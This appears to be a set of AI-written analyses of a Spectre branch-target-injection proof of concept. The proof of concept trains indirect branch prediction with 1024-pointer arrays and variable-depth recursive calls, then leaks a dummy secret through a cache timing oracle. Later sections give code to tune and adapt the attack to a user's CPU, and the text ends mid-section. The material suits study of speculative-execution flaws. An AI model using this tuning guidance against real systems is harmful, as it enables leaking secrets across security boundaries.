






# Spectre Variant Attack: Microarchitectural Analysis Report

## Executive Summary

This code implements a sophisticated Spectre variant attack that exploits indirect branch prediction and speculative execution to leak sensitive data through cache side-channels. The attack uses a novel variable-depth chain technique to amplify branch mispredictions and extends the speculative execution window, making it adaptable to different CPU microarchitectures.

-----

## Attack Overview Flowchart



-----

## Training Phase Flowchart

```mermaid
flowchart TD
    A[Start Training Phase] --> B[Reset All 1024 Pointers]
    B --> C[Fill Array: array[i] = real_data_accessor]
    C --> D[Calculate Injection Point: run % 1024]
    D --> E[Inject: array[injection_point] = censoring_accessor]
    E --> F[Iterate Through Array 0 to injection_point]
    F --> G[Flush Object from Cache]
    G --> H[Execute GetDataByteWithDepth]
    H --> I[Branch Predictor Learns Pattern]
    I --> J{More Objects?}
    J -->|Yes| F
    J -->|No| K[Training Complete for This Run]
    
    style I fill:#ffcccc
    style G fill:#ccffcc
```

**Estimated Iterations for Single Byte (Depth 4):**

- Outer loop runs: ~50-1000 iterations until convergence
- Inner loop per run: injection_point + 1 iterations (average ~512)
- Total cache flushes: ~25,600-512,000 per byte
- Total depth chain executions: ~25,600-512,000 per byte

-----

## Variable Depth Chain Execution Flowchart

```mermaid
flowchart TD
    A[GetDataByteWithDepth Called] --> B{Depth == 0?}
    B -->|Yes| C[Return GetDataPtr[index]]
    B -->|No| D[Recursive Call: next_accessor_->GetDataByteWithDepth]
    D --> E[Branch Predictor Makes Prediction]
    E --> F[Speculative Execution Begins]
    F --> G[CPU Fetches Predicted Target]
    G --> H[Execute Speculatively]
    H --> I{Depth - 1 == 0?}
    I -->|No| J[Another Recursive Level]
    J --> E
    I -->|Yes| K[Access Memory Speculatively]
    K --> L[Cache Line Loaded]
    L --> M[Misprediction Detected]
    M --> N[Rollback Architectural State]
    N --> O[Cache State Remains]
    
    style E fill:#ffcccc
    style F fill:#ffcccc
    style K fill:#ff9999
    style O fill:#99ff99
```

**For Depth 4 Configuration:**

- 4 levels of recursive calls per execution
- 4 indirect branch predictions made
- 4 opportunities for misprediction
- Speculative window extends 4 call levels deep

-----

## Secret Information Leakage Flowchart

```mermaid
flowchart TD
    A[Speculative Memory Access] --> B[Access private_data[offset]]
    B --> C[Load Into Cache Line]
    C --> D[Use as Array Index: oracle[leaked_byte]]
    D --> E[Cache oracle[leaked_byte]]
    E --> F[Misprediction Detected]
    F --> G[Architectural Rollback]
    G --> H[oracle[leaked_byte] Remains in Cache]
    H --> I[Measure Cache Timing]
    I --> J[Scan All 256 Oracle Positions]
    J --> K[Find Fastest Access Time]
    K --> L[Fastest Index = Leaked Byte]
    
    style C fill:#ff9999
    style H fill:#99ff99
    style K fill:#99ff99
```

-----

## Cache Side-Channel Measurement Flowchart

```mermaid
flowchart TD
    A[Start Cache Measurement] --> B[Flush All Oracle Entries]
    B --> C[Execute Attack Iteration]
    C --> D[Measure Access Time for Each oracle[i]]
    D --> E[Record Timing Results]
    E --> F[Calculate Scores vs Baseline]
    F --> G[Find Minimum Access Time]
    G --> H{Score Above Threshold?}
    H -->|Yes| I[Return Leaked Byte]
    H -->|No| J[Continue Next Iteration]
    
    style D fill:#ccffcc
    style G fill:#99ff99
```

-----

## Algorithmic Analysis

### 1. Main Attack Loop (`LeakByteVariableDepth`)

**Steps:**

1. **Initialize Side Channel** (1 time per byte)
- Create 256-element oracle array (each element is cache-line sized)
- Initialize accessor pointer array (1024 elements)
1. **Setup Phase** (1 time per byte)
- Create RealDepthAccessor and CensoringDepthAccessor objects
- Configure self-referencing chains for recursive calls
- Set up depth parameter (default: 10, configurable: 1-25+)
1. **Attack Iteration Loop** (50-100,000 times per byte)
- **Training Phase**: Fill array with real_data_accessor pointers
- **Injection Phase**: Replace one pointer with censoring_data_accessor
- **Execution Phase**: Process array elements with cache manipulation
1. **Convergence Check** (after each iteration)
- Measure cache timing to detect leaked information
- Return result if confident, otherwise continue

**Complexity:** O(n × m × d) where n = iterations until convergence, m = array size (1024), d = depth

### 2. Variable Depth Chain Mechanism (`GetDataByteWithDepth`)

**Algorithm:**

```
function GetDataByteWithDepth(index, read_private, depth):
    if depth == 0:
        // Base case - actual memory access
        return GetDataPtr(read_private)[index]
    else:
        // Recursive case - create misprediction opportunity
        return next_accessor_->GetDataByteWithDepth(index, read_private, depth-1)
```

**Microarchitectural Impact:**

- Each recursion level adds entry to Branch Target Buffer (BTB)
- Return Stack Buffer (RSB) fills with predicted return addresses
- Reorder Buffer (ROB) holds more speculative instructions
- Increases speculative execution window depth

### 3. Branch Predictor Training Algorithm

**Steps per iteration:**

1. **Reset Array** (1024 operations)
- Fill all pointers with RealDataAccessor address
- Train predictor to expect RealDataAccessor::GetDataByte
1. **Injection** (1 operation)
- Replace array[injection_index] with CensoringDataAccessor
- Create type confusion opportunity
1. **Execution Loop** (injection_index + 1 iterations)
- Flush object from cache (force memory load)
- Execute virtual function call
- Branch predictor makes prediction based on training

**Training Effectiveness:**

- 1023 “correct” predictions train the BTB
- 1 “incorrect” prediction causes misprediction
- Ratio ensures high misprediction probability

### 4. Cache Side-Channel Measurement

**Oracle Array Structure:**

```cpp
std::array<BigByte, 256> oracle  // 256 cache-line-sized elements
```

**Measurement Algorithm:**

1. **Flush Phase** (256 operations)
- Remove all oracle elements from cache
- Ensure clean measurement baseline
1. **Access Phase** (1 operation per depth level)
- Use leaked byte as index: oracle[leaked_value]
- Load corresponding cache line during speculation
1. **Timing Phase** (256 operations)
- Measure access time for oracle[0] through oracle[255]
- Identify fastest access (indicates cache hit)
1. **Analysis Phase** (1 operation)
- Compare against baseline (public_data[offset])
- Return result if confidence threshold met

-----

## Core Concepts Explained

### Variable Depth Mechanism

**Purpose:** Extend the speculative execution window to increase attack success rate across different CPU architectures.

**How it Works:**

- **Depth 1**: Single virtual function call (traditional Spectre)
- **Depth 4**: Chain of 4 recursive calls before memory access
- **Depth 10+**: Extended chains that stress deeper prediction structures

**Microarchitectural Impact:**

- Fills more BTB entries with malicious predictions
- Extends ROB occupancy with speculative instructions
- Increases probability of successful speculation before misprediction detection

**Architecture Adaptation:**

- Intel CPUs with larger ROBs may benefit from deeper chains
- AMD CPUs with different prediction algorithms may have optimal depths
- Configurable depth allows tuning for specific microarchitectures

### Pointer Array (`array_of_pointers`)

**Structure:**

```cpp
std::array<DataAccessor *, kAccessorArrayLength>  // 1024 pointers
```

**Fill Pattern:**

- **Training**: All 1024 pointers → RealDataAccessor
- **Injection**: 1023 pointers → RealDataAccessor, 1 pointer → CensoringDataAccessor

**Purpose:**

1. **Branch Predictor Training**: Repeated pattern trains BTB to predict RealDataAccessor
1. **Type Confusion**: Single CensoringDataAccessor causes misprediction
1. **Amplification**: Large array increases training effectiveness

**Usage Pattern:**

- Array index cycles: `run % 1024`
- Ensures different injection points across iterations
- Prevents predictor adaptation to fixed patterns

### Censoring Data Mechanism

**CensoringDataAccessor Behavior:**

```cpp
char GetDataByte(size_t index, bool /* ignored */) override {
    return public_data[index];  // Always returns 'x'
}
```

**vs RealDataAccessor:**

```cpp
char GetDataByte(size_t index, bool read_from_private_data) override {
    return GetDataPtr(read_from_private_data)[index];  // Can return secret
}
```

**Attack Mechanism:**

1. **Architectural Execution**: CensoringDataAccessor always returns public data
1. **Speculative Execution**: Mispredicted as RealDataAccessor, accesses private data
1. **Side Effect**: Private data access leaves cache traces despite rollback

**Security Model:**

- Represents secure implementation that should never leak secrets
- Attack bypasses this protection through speculative execution
- Demonstrates vulnerability even in “secure” code

-----

## Data Structures and Variables

### Global Configuration

- **`g_branch_prediction_depth`**: Controls recursion depth (default: 10)
- **`kAccessorArrayLength`**: Size of pointer array (1024)
- **`public_data`**: Non-secret data (“xxxxxxxxxxxxxxxx”)
- **`private_data`**: Secret target (“It’s a s3kr3t!!!”)

### Class Hierarchy

```
DataAccessor (abstract base)
├── RealDataAccessor (leaks based on parameter)
├── CensoringDataAccessor (never leaks)
└── DepthChainAccessor (abstract, adds depth)
    ├── RealDepthAccessor (recursive real accessor)
    └── CensoringDepthAccessor (recursive censoring)
```

### Cache Side-Channel Components

- **`CacheSideChannel sidechannel`**: Manages oracle array and timing
- **`oracle`**: 256-element array for cache-based measurement
- **`BigByte`**: Cache-line-sized data structure for clean timing

### Attack State Management

- **`array_of_pointers`**: 1024-element training array
- **`local_pointer_index`**: Injection point for type confusion
- **`run`**: Iteration counter (max: 100,000)

-----

## Performance Estimates (Depth 4, Single Byte)

### Iteration Breakdown

- **Typical convergence**: 50-1000 iterations
- **Worst case**: 100,000 iterations
- **Array processing per iteration**: ~512 elements (average)
- **Cache flushes per byte**: 25,600-512,000
- **Recursive calls per execution**: 4 levels

### Microarchitectural Operations

- **BTB entries consumed**: 4 per depth chain
- **ROB pressure**: 4x normal speculative window
- **Cache line accesses**: 256 oracle + data accesses
- **Branch mispredictions**: 1 per successful iteration

### Success Factors

- **CPU architecture**: Intel vs AMD optimization needs
- **Cache hierarchy**: L1/L2/L3 timing characteristics
- **System noise**: Background processes affecting timing
- **Compiler optimizations**: Impact on virtual function calls

This attack represents a sophisticated evolution of Spectre that adapts to modern CPU defenses through configurable depth chains and comprehensive microarchitectural exploitation.​​​​​​​​​​​​​​​​


# Buffer and Microarchitectural Component Analysis

## Buffer Filling Analysis by Code Section

### 1. Pointer Array Training (`array_of_pointers`)

**Code Section:**

```cpp
for (auto &pointer : *array_of_pointers) {
  pointer = real_data_accessor.get();
}
(*array_of_pointers)[local_pointer_index] = censoring_data_accessor.get();
```

**Buffers Filled:**

- **Branch Target Buffer (BTB)**: Filled with 1023 entries mapping virtual function call sites to `RealDataAccessor::GetDataByte`
- **Branch History Buffer/Table**: Records pattern of repeated calls to same target
- **Indirect Branch Predictor**: Learns association between call site and target address
- **Pattern History Table (PHT)**: Builds confidence in the prediction pattern

**Microarchitectural Impact:**

- Each `pointer->GetDataByte()` call creates BTB entry: `call_site → RealDataAccessor::GetDataByte`
- Training creates strong prediction bias (1023:1 ratio)
- BTB becomes saturated with malicious training data

### 2. Variable Depth Chain (`GetDataByteWithDepth`)

**Code Section:**

```cpp
char GetDataByteWithDepth(size_t index, bool read_from_private_data, size_t depth) override {
  if (depth == 0) {
    return GetDataPtr(read_from_private_data)[index];
  }
  return next_accessor_->GetDataByteWithDepth(index, read_from_private_data, depth - 1);
}
```

**Buffers Affected by Depth Chain:**

#### Branch Target Buffer (BTB)

- **Entries Created**: `depth` number of entries
- **Pattern**: Each recursion level creates unique BTB entry

```
Level 0: call_site_0 → GetDataByteWithDepth
Level 1: call_site_1 → GetDataByteWithDepth  
Level 2: call_site_2 → GetDataByteWithDepth
Level 3: call_site_3 → GetDataByteWithDepth (depth 4)
```

#### Return Stack Buffer (RSB) - **YES, IT IS FILLED**

- **How**: Each recursive call pushes return address onto RSB
- **Depth Impact**: Deeper chains fill more RSB entries
- **Buffer Content**:

```
RSB[0] = return_address_from_level_3
RSB[1] = return_address_from_level_2  
RSB[2] = return_address_from_level_1
RSB[3] = return_address_from_level_0
```

#### Reorder Buffer (ROB)

- **Entries**: `depth × instructions_per_call` entries
- **Content**: Speculative instructions from each recursion level
- **Pressure**: Higher depth = more ROB occupancy during speculation

#### Load/Store Queue

- **Final Memory Access**: `GetDataPtr(read_from_private_data)[index]`
- **Speculative Loads**: Queued but not committed during misprediction
- **Cache Impact**: Speculative load brings secret data into cache

### 3. Cache Flush Operations (`FlushFromDataCache`)

**Code Section:**

```cpp
const char *accessor_bytes = reinterpret_cast<const char*>(accessor);
FlushFromDataCache(accessor_bytes, accessor_bytes + object_size_in_bytes);
```

**Buffers Affected:**

- **L1 Data Cache**: Object data evicted
- **L2 Cache**: Backing storage also flushed
- **Line Fill Buffers**: Cleared of accessor object data
- **Miss Status Holding Registers (MSHR)**: Reset for object addresses

**Purpose**: Forces memory load of accessor object, ensuring vtable is fetched from memory rather than cache, increasing indirect branch prediction reliance.

### 4. Oracle Access (`ForceRead`)

**Code Section:**

```cpp
ForceRead(oracle.data() + static_cast<size_t>(
    accessor->GetDataByte(offset, read_private_data)));
```

**Buffers Filled During Speculation:**

- **L1 Data Cache**: `oracle[secret_byte]` brought into cache
- **Line Fill Buffers**: Used during speculative cache line fill
- **Store Buffer**: May hold speculative store operations
- **Memory Ordering Buffer**: Tracks speculative memory operations

-----

## Detailed RSB (Return Stack Buffer) Analysis

### RSB Filling Mechanism

**When RSB Gets Filled:**

```cpp
// Each recursive call does this:
call GetDataByteWithDepth  // Pushes return address to RSB
// RSB entry: [call_site_address, stack_pointer]
```

**RSB State During Depth-4 Chain:**

```
RSB Stack (growing down):
┌─────────────────────────────────┐
│ Return from depth-4 call        │ ← RSB[0] (top)
├─────────────────────────────────┤
│ Return from depth-3 call        │ ← RSB[1]  
├─────────────────────────────────┤
│ Return from depth-2 call        │ ← RSB[2]
├─────────────────────────────────┤  
│ Return from depth-1 call        │ ← RSB[3]
└─────────────────────────────────┘
```

**RSB Speculation Impact:**

- **Prediction**: CPU speculates on return addresses for nested calls
- **Misprediction**: When type confusion occurs, RSB predictions become wrong
- **Recovery**: RSB must be corrected during speculation recovery

### Architecture-Specific RSB Behavior

**Intel RSB (typically 16-32 entries):**

- Deeper chains fill more RSB entries
- RSB overflow can cause additional mispredictions
- Better RSB prediction helps attack succeed

**AMD Return Address Stack (typically 16-24 entries):**

- Similar behavior but different prediction algorithms
- May have different optimal depths for attacks

-----

## Buffer Interaction Flow During Attack

### Phase 1: Training (Fills Prediction Buffers)



**Buffers Modified:**

- BTB: +1 entry per call
- PHT: Pattern confidence increased
- Branch History: Call pattern recorded

### Phase 2: Depth Chain Execution (Fills Multiple Buffers)



**Buffer State After Depth-4 Chain:**

- **RSB**: 4 return addresses
- **BTB**: 4 prediction entries
- **ROB**: 4×N instructions (N = instructions per call)
- **LSQ**: 1 speculative load

### Phase 3: Misprediction Recovery (Buffers Drained/Corrected)



**Buffer Recovery:**

- **ROB**: Flushed of speculative instructions
- **RSB**: Corrected return addresses
- **LSQ**: Speculative loads discarded
- **Cache**: Secret data remains (side-channel!)

-----

## Depth Impact on Specific Buffers

### Scaling Factors by Depth

|Depth|BTB Entries|RSB Entries|ROB Pressure|Attack Window|
|-----|-----------|-----------|------------|-------------|
|1    |1          |1          |~10 μops    |Small        |
|4    |4          |4          |~40 μops    |Medium       |
|10   |10         |10         |~100 μops   |Large        |
|25   |25         |25         |~250 μops   |Very Large   |

### Buffer Overflow Effects

**RSB Overflow (Depth > RSB Size):**

- Older return addresses evicted
- Can cause additional mispredictions
- May help or hurt attack depending on timing

**ROB Pressure (Large Depth):**

- Speculative instructions compete for ROB space
- May force earlier speculation resolution
- Can reduce attack effectiveness if too aggressive

**BTB Pollution:**

- Many entries can evict other predictions
- Creates noise in branch prediction
- Optimal depth balances training vs. pollution

-----

## Summary: Buffer Utilization Pattern

**Training Phase Fills:**

- BTB (1024 entries with training bias)
- Pattern History Tables
- Indirect Branch Predictor state

**Depth Chain Fills:**

- RSB (depth entries)
- ROB (depth × instruction count)
- BTB (depth prediction entries)

**Speculative Access Fills:**

- Load/Store Queue (1 entry)
- Cache hierarchy (secret data)
- MSHR (cache miss tracking)

**Attack Success Depends On:**

- RSB prediction accuracy during speculation
- ROB capacity to hold deep speculative chains
- BTB training effectiveness
- Cache timing precision for side-channel measurement

The variable depth mechanism essentially multiplies the buffer pressure and prediction complexity, creating more opportunities for successful speculation before misprediction detection across different CPU microarchitectures.​​​​​​​​​​​​​​​​

# Analysis: Attack Failure at Depth 15+

## Root Cause Analysis

The attack failure at depth 15+ on your system indicates you’ve hit a **critical microarchitectural limit**. Here’s what likely happened:

## Most Probable Cause: RSB Overflow Threshold

### Your CPU’s RSB Characteristics

**Evidence suggests your CPU has a 16-entry RSB:**

```
Depth 1-14:  Working (within RSB capacity with margin)
Depth 15+:   Failing (triggering RSB overflow behavior)
```

**Why Depth 14 is the Threshold:**

1. **RSB Capacity**: 16 entries total
1. **Existing Stack Usage**: ~2 entries already used by:
- `main()` → `LeakByteVariableDepth()`
- Other function calls in the stack
1. **Effective Available RSB**: 16 - 2 = 14 entries
1. **Depth 14**: Uses exactly the available RSB space
1. **Depth 15+**: Triggers RSB overflow

### Microarchitectural State at the Threshold

**Depth 14 (Working):**

```
RSB State:
┌─────────────────────────────────┐
│ GetDataByteWithDepth(depth=1)   │ ← RSB[15] (top)
├─────────────────────────────────┤
│ GetDataByteWithDepth(depth=2)   │ ← RSB[14]
│              ...                │
├─────────────────────────────────┤
│ GetDataByteWithDepth(depth=14)  │ ← RSB[2]
├─────────────────────────────────┤
│ LeakByteVariableDepth()         │ ← RSB[1] 
├─────────────────────────────────┤
│ main()                          │ ← RSB[0]
└─────────────────────────────────┘
RSB Status: FULL but not overflowing
Prediction: Accurate, attack succeeds
```

**Depth 15+ (Failing):**

```
RSB State:
┌─────────────────────────────────┐
│ GetDataByteWithDepth(depth=1)   │ ← RSB[15] (top)
├─────────────────────────────────┤
│ GetDataByteWithDepth(depth=2)   │ ← RSB[14]
│              ...                │
├─────────────────────────────────┤
│ GetDataByteWithDepth(depth=15)  │ ← RSB[1]
├─────────────────────────────────┤
│ OVERFLOW: main() evicted        │ ← RSB[0] (lost!)
└─────────────────────────────────┘
RSB Status: OVERFLOWING
Prediction: Falls back to BTB/pattern prediction
Attack: FAILS due to misprediction chaos
```

## CPU Architecture Identification

### Intel CPU Indicators

If you’re on Intel (most likely given the exact 14-entry limit):

**Possible Intel CPUs with 16-entry RSB:**

- **Skylake/Kaby Lake/Coffee Lake** (6th-9th gen Core)
- **Ice Lake/Tiger Lake** (10th-11th gen Core)
- **Alder Lake** (12th gen Core) - some cores

**Intel RSB Overflow Behavior:**

```cpp
// Intel's aggressive overflow handling
if (rsb_depth > 16) {
    // Fallback to BTB prediction
    // BTB lookup often fails for recursive patterns
    // Results in random/incorrect return predictions
    // Speculation follows wrong paths
    // No secret data access occurs
}
```

### AMD CPU Possibility

If you’re on AMD (less likely given exact threshold):

**AMD CPUs with 16-entry RAS:**

- **Zen 1/Zen+** (Ryzen 1000/2000 series)
- Some **Zen 2** configurations

## Why the Attack Completely Fails (Not Just Degrades)

### 1. **Total Prediction Breakdown**

**At Depth 15+:**

```cpp
// When RSB overflows on your CPU:
return_prediction = btb_lookup(recursive_call_site);
// BTB has no good prediction for recursive virtual calls
// Results in: return_prediction = RANDOM_ADDRESS or NULL
```

**Speculation Path:**

```
Normal (depth ≤14): Correct speculation → secret access → cache side-effect
Overflow (depth 15+): Wrong speculation → garbage code → no secret access
```

### 2. **BTB Ineffectiveness for Recursive Patterns**

**BTB Training Mismatch:**

```cpp
// BTB was trained with:
call_site → RealDataAccessor::GetDataByte  (single call)

// But needs to predict:
recursive_call_site → GetDataByteWithDepth  (recursive call)

// These are DIFFERENT call sites with different prediction requirements
```

### 3. **Speculation Window Collapse**

**Pipeline Behavior at Overflow:**



## CPU-Specific RSB Overflow Policies

### Intel Overflow Behavior

```cpp
// Intel CPUs (your likely scenario):
if (rsb_overflow) {
    prediction_confidence = LOW;
    fallback_to_btb();
    if (btb_miss) {
        // Often predicts return to caller's caller
        // Or uses pattern-based prediction
        // Results in completely wrong speculation
    }
}
```

### AMD Overflow Behavior

```cpp
// AMD CPUs (alternative):
if (ras_overflow) {
    // Some AMD CPUs flush entire RAS on overflow
    // Others use more conservative fallback
    // May have different threshold behavior
}
```

## Verification Tests

### Test 1: Confirm RSB Size

```cpp
// Add this to your code to confirm RSB size:
void TestRSBSize() {
    for (size_t test_depth = 10; test_depth <= 20; test_depth++) {
        std::cout << "Testing depth " << test_depth << ": ";
        char result = LeakByteVariableDepth(0, test_depth);
        bool success = (result == private_data[0]);
        std::cout << (success ? "SUCCESS" : "FAIL") << std::endl;
        
        if (!success && test_depth > 10) {
            std::cout << "RSB overflow threshold: " << test_depth << std::endl;
            break;
        }
    }
}
```

### Test 2: Check CPU Info

```bash
# Linux:
cat /proc/cpuinfo | grep "model name"
lscpu

# Windows:
wmic cpu get name
```

### Test 3: Gradual Depth Increase

```cpp
// Test around the boundary:
for (size_t depth : {12, 13, 14, 15, 16, 17}) {
    std::cout << "Depth " << depth << ": ";
    // Try multiple times to account for noise
    int successes = 0;
    for (int trial = 0; trial < 10; trial++) {
        char result = LeakByteVariableDepth(0, depth);
        if (result == private_data[0]) successes++;
    }
    std::cout << successes << "/10 successes" << std::endl;
}
```

## Mitigation Detection

### Could Be Security Mitigations

**Unlikely but possible:**

- **Microcode updates** that artificially limit speculation depth
- **OS-level mitigations** that interfere with deep speculation
- **Compiler optimizations** that change call patterns at certain depths

**How to Test:**

```cpp
// Check if it's mitigation vs. hardware limit:
// Try the attack with different compilation flags:
// -O0, -O1, -O2, -O3
// Different compilers: GCC vs Clang vs MSVC
```

## Recommended Next Steps

### 1. **Optimize for Your Hardware**

```cpp
// Set optimal depth for your system:
const size_t OPTIMAL_DEPTH = 14;  // Just under your overflow threshold
SetBranchPredictionDepth(OPTIMAL_DEPTH);
```

### 2. **Implement Adaptive Depth**

```cpp
size_t FindOptimalDepth() {
    for (size_t depth = 20; depth >= 1; depth--) {
        // Quick test on first character
        char result = LeakByteVariableDepth(0, depth);
        if (result == private_data[0]) {
            return depth;  // Found working depth
        }
    }
    return 1;  // Fallback
}
```

### 3. **Alternative Attack Strategies**

```cpp
// If deep chains don't work, try:
// 1. Multiple shallow chains
// 2. Different virtual call patterns  
// 3. Mixed depth strategies
```

## Conclusion

The **exact cutoff at depth 14** strongly indicates your CPU has a **16-entry RSB** with approximately 2 entries already in use by the call stack. This is consistent with common Intel CPU architectures. The attack fails completely at depth 15+ because RSB overflow triggers fallback prediction mechanisms that cannot reliably predict the recursive call pattern, causing speculation to follow wrong paths that don’t access the secret data.

This is actually **normal behavior** and demonstrates the attack working as designed within the hardware constraints of your specific CPU’s microarchitecture.​​​​​​​​​​​​​​​​


# Detailed Analysis of Spectre Attack Components

## 1. `kAccessorArrayLength` Variable Analysis

### What is it?

```cpp
constexpr size_t kAccessorArrayLength = 1024;
```

**Definition:** A compile-time constant defining the size of the pointer array used for branch predictor training.

### What does it do?

**Primary Purpose:** Controls the **training intensity** for the indirect branch predictor.

```cpp
auto array_of_pointers = 
    std::unique_ptr<std::array<DataAccessor *, kAccessorArrayLength>>(
        new std::array<DataAccessor *, kAccessorArrayLength>());
```

**Creates:** An array of 1024 function pointers for virtual function call training.

### How is it used?

#### Training Phase Pattern:

```cpp
// Fill 1023 pointers with "good" accessor
